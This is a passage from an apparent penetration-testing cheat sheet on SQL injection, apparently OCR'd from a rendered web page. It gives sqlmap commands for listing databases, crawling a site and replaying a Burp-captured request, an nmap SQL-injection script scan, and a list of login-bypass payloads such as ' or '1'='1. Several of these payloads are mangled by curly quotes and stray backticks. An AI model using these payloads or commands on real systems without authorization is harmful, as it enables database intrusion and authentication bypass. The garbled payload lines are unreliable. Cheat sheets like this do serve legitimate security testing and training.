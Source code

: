 ### SQL Injection

- [sqlmap](https://www.kali.org/tools/sqlmap/ "https://www.kali.org/tools/sqlmap/")

    ```shell
    sqlmap -u <url> --dbs
    ```

- Enum using nmap

    ```
    nmap -sV --script=http-sql-injection <target>
    ```

- Using jsql

- Capture the request using burp suite, and save the request in a file.

- `sqlmap -r request.txt`

- Crawl a page to find sql-injections

    ```
    sqlmap -u http://example.com --crawl=1
    ```

- <http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet>

- Login bypass

    `‘or 1=1- -`

    `‘ or ‘1’=1`

    `‘ or ‘1’=1 - -`

    `‘–`

    `' or '1'='1`

    `-'`

    `' '`

    `'&'`

    `'^'`

    `'*'`

    `' or ''-'`

    `' or '' '`

    `' or ''&'`

    `' or ''^'``

    `' or ''*'

    `"-"`

    `" "`
